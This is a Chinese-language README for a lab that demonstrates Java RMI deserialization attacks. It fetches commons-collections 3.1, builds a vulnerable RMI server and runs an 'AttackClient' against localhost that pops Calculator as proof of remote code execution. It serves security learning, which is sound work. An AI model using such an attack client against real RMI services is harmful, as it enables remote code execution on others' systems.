

# 一个普通的RMI漏洞利用环境

## 环境搭建

### 依赖commons-collections-3.1.jar包
```bash
cd lib
wget https://repo1.maven.org/maven2/commons-collections/commons-collections/3.1/commons-collections-3.1.jar
```

### 服务端
```bash
cd RMIServer
# 编译
mvn clean compile assembly:single
# 执行
/Library/Java/JavaVirtualMachines/jdk1.8.0_112.jdk/Contents/Home/bin/java -jar ./target/BSidesRMIService-0.1-jar-with-dependencies.jar
```

### 客户端
```bash
cd RMIClient/com/cqq
# 编译
javac -cp ../../../lib/commons-collections-3.1.jar *.java
cd ../..
# 执行
java -cp ../lib/commons-collections-3.1.jar:. com.cqq.AttackClient 127.0.0.1  1099 "/System/Applications/Calculator.app/Contents/MacOS/Calculator"
```

## Demo



## 参考
- [深入理解Java RMI反序列化漏洞]https://www.xmanblog.net/java-rmi-rce/
- [Slides/Demos from the BSides Munich 2019 talk "Attacking Java RMI in 2019"](https://github.com/mogwailabs/rmi-deserialization)
